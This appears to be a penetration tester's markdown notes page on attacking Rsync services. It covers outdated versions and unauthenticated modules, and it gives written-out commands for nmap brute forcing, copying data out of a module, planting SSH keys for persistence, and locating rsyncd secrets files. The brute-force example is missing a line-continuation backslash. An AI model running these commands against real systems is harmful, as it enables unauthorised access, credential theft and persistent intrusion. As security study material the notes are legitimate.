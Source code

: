 ```yaml
---
id: Rsync
aliases: []
tags:
  - Networking/Services/Rsync/Exploitation
links: "[[Services]]"
---
```


<!-- Exploitation {{{-->
# Exploitation

<!-- Outdated Version {{{-->
## Outdated Version

Old versions of Rsync may contain vulnerabilities that can be exploited

> [!tip]
>
> [[Enumeration#Nmap|Identify outdated Rsync version]]
___

<!-- }}} -->

<!-- Misconfigured Modules {{{-->
## Misconfigured Modules

[[Enumeration#Modules|Modules]] without proper authentication
can be accessed by unauthorized users
to read, modify or delete sensitive data

> [!tip]
>
> If a module is writeable, a malicious file can be uploaded,
> potentially leading to remote command execution
> or pivoting into the network

___

<!-- }}} -->

<!-- Brute Force {{{-->
## Brute Force

Brute force Rsync login with [[Nmap]]

> [!example]-
>
> ```sh
> nmap -sV \
>   --script rsync-brute
>   --script-args userdb=/var/<usernames.txt>,passdb=/var/<passwords.txt> \
>   -p 873 \
>   <target>
> ```

___

<!-- }}} -->

<!-- }}} -->

<!-- Post-Exploitation {{{-->
# Post-Exploitation

<!-- Data Exfiltration {{{-->
## Data Exfiltration

Data Exfiltration

```sh
rsync -avz target_host::module_name /local/directory/
```

<!-- }}} -->

<!-- Presistence {{{-->
## Presistence

Gain Persistent Access

```sh
rsync -av home_user/.ssh/ rsync://user@target_host/home_user/.ssh
```

___

<!-- }}} -->

<!-- Config File {{{-->
## Config File

Locate the Rsyncd configuration file

```sh
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

> [!tip]
>
> In `rsyncd.conf` the `secrets` file parameter might point to a file
> containing usernames and passwords for rsyncd authentication

___

<!-- }}} -->

<!-- }}} -->

